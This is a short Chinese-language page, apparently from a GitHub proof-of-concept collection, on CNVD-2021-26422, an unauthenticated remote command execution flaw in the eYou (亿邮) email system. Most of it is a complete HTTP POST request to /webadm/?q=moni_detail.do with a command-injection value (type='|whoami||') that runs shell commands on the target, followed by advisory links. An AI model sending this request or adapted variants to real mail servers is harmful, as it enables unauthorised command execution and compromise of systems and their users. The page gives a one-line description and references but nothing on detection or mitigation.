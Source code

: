 # 亿邮邮件系统远程命令执行漏洞 (CNVD-2021-26422)

亿邮电子邮件系统存在远程命令执行漏洞，未经身份验证的攻击者发送恶意请求到该系统可导致远程命令执行。

情报可以见：https://forum.ywhack.com/viewthread.php?tid=115418

PoC：


```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: ip
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

type='|whoami||'
```

ref:

* https://mp.weixin.qq.com/s/KDlSyDn7DWwnnFeDednk8g
* https://www.cnvd.org.cn/flaw/show/CNVD-2021-26422
